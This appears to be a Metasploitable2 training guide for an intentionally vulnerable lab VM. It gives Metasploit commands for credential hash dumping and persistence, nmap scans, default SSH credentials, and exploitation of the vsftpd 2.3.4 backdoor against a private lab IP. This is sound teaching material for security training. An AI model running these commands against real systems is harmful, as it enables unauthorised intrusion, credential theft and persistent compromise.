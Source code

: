 ```bash
getsystem
hashdump

# 5. Persistence
use post/windows/manage/persistence_exe
set SESSION 1
run
```

**Important**: Always use Metasploit ethically and only on systems you own or have explicit permission to test. This tool should be used for legitimate security testing, research, and educational purposes only.


# Metasploitable2 Vulnerabilities Guide

Metasploitable2 is an intentionally vulnerable Linux system designed for security training. Here are the major vulnerabilities you can exploit:

## Initial Reconnaissance

```bash
# Scan all ports
nmap -sS -sV -O 172.21.0.3

# Comprehensive scan with scripts
nmap -sC -sV -A 172.21.0.3

# Scan for specific vulnerabilities
nmap --script vuln 172.21.0.3
```

## Major Vulnerabilities by Service

### 1. SSH (Port 22) - Weak Credentials
```bash
# Default credentials
ssh msfadmin@172.21.0.3
# Password: msfadmin

# Using Metasploit
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 172.21.0.3
set USERNAME msfadmin
set PASSWORD msfadmin
run
```

### 2. FTP (Port 21) - vsftpd 2.3.4 Backdoor
```bash
# Using Metasploit
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 172.21.0.3
exploit

# Manual exploitation
ftp 172.21.0.3
# Username: user:)
# This triggers the backdoor on port 6200
```

